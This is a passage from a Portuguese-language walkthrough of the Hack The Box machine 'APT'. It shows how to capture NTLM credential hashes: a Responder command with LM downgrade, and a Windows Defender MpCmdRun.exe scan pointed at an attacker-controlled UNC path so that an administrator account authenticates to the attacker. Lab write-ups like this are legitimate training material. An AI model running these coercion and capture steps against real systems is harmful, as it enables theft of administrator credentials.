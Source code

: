![Salt - Challenge](Assets/HTB-Windows-Insane-APT/salt_challenge.png)

Depois de forçar o SALT a 1122334455667788 para ser enviado quando nos for solicitado durante o Challenge Responde Protocol, é só ligar o responder e esperar...

```bash
sudo responder -I tun0 --lm -v
```

## MsCmdRun.exe

Esperar... e esperar o que? o responder simula montes de serviços de partilha e afins, e captura hashes e informações criticas de quem se conecta a nossa máquina Kali. Mas neste plano, existe um problema... Ninguém vai-nos pedir coisas...

Pois não. Ninguém vai porque é uma máquina HTB, mas mesmo assim, podemos forçar a que a máquina solicite coisas ao nosso responder, estamos ligado à máquina alvo com evil-winrm...

Mas já temos tudo o que percisamos deste usuário, portanto nem vale a pena enviar petições ao nosso responder... Mas podemos fazer com que outro usuário faça uma petição... À pouco, percisámos burlar o Windows Defender... e agora, vamos percisar dele lool. Podemos dizer ao Windows Defender para verificar a perigosidade de um arquivo noutro ponto de rede. E o usuários que irá fazer isso é um administrador...

```bash
cd "C:\Program Files\Windows Defender"
.\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.21\test.txt
```
